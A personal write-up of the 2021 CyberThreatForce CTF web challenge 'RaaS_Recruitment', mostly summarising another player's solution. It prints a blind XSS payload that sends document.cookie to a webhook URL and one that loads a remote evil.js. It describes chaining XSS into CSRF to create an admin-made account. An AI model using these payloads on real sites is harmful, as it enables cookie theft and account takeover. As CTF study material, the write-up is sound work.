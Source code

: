 ```yaml
---
title: RaaS_Recruitment CyberThreatForce CTF 2021
tags: permanent-note web-xss
references:
---
```

# RaaS_Recruitment CyberThreatForce CTF 2021

### Raas_Recruitment
- [ ] Was Solved By Me
#### Points - 180 -> 410
#### Description:
We found the **APT403** recruitment site.
Tried to find a way to exploit their website !

**[](https://recruitment.cyberthreatforce-ctf.com/)**


#### Write-Up - MY OWN
 When entering the Website. We're welcomed with
![](https://i.imgur.com/kMjLk9v.png)
After registration We get a message that the  review team will review the application
![](https://i.imgur.com/qTFY32g.png)
- The site also uses `Content-Disposition: multipart/form-data;`, which is interesting 

- The webpage uses newest Apache, so no exploits for CVEs
![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/2.png)
- **There was Hint Given By Administrators** - **It's not SQLi, try different Injection ^^**
	- Not very useful Hint to be honest




#### Notes After The Competition - NOT MY OWN SOLUTION
##### Finding the XSS and Exploiting It
- There actually was a SQL Injection, which was not planned by the authors
- The vulnerability was indeed in `Content-Disposition multipart body`
	- W0rty tried injecting -   `">'>< script>fetch("[https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie](https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c=%22+document.cookie))< /script>`, which sends the request to his WebHook.
		- Testing XSS with Blind Payloads is way better then just executing `alert()`, because most web pages sanitizes or filters out it. Amazing!
		![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/3.png)
		- The last parameter `name=radio` triggered the XSS payload.
	- W0rty tried to leak /admin/index.php source code with this Blind XSS with the following script
	- ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/4.png)
		- But the website was limiting the size of his payload
			- He then put the payload into his VPS, and with this payload ->   `">'>< script src="https://midnightflag.fr/evil.js">< /script>` he invoked this code
				- This though didn't work either. It seemed like the index.php source code that he wanted to extract was too big, so he then used `substr` function to select part of the HTML page:
				-  ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/5.png)
					-  This time it succeeded, and he found out from the source code, that the page has a hidden web-page, called `/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/`

##### Analyzing Hidden Page
- After W0rty read the HTML, he noticed weird javascript endpoint called `prcmSDAui9SeXxbuuaUKjEAJ5qIGY9B9vPFMwW19.js`
	-  This JavaScript was obfuscated. After the obfuscation, it seems like it's about the creation of "Dev" user account
		-  **Keep in mind, that only an admin could create a user account, and so W0rty had to perform CSRF Attack, through XSS Injection **
			- SOURCE CODE PROVIDED FOR THE 'BOT' IS ON THE AUTHOR'S ORIGINAL WRITE-UP
				- The first implementation of the bot didn't work, and so he W0rty tried to implement the CSRF in `multipart/form-data`, just like we saw at the 'Contact Form' in the beginning
					- SOURCE CODE PROVIDED FOR THE 'BOT' IS ON THE AUTHOR'S ORIGINAL WRITE-UP
						- **This worked and W0rty received an attack**. 
	
- There were so much in this challenge. It is interesting that initially the Challenge was rated for 180 points(the easiest challenge), and later to 410 points. Maybe authors made it more complicated?
- Compared to me, W0rax did an amazing job!

##### Lessons taken:
- Test XSS with Blind Payloads
- Have an ability to host your payloads on your own VPS
- Check which type of data the WebApp accepts when building your payload
- And a lot more, related to just W0rty Backend Web Programming Skills!
					
##### References:
[W0rty Write-Up](https://github.com/W0rty/WU-CyberThreatForce/blob/main/README-EN.md)
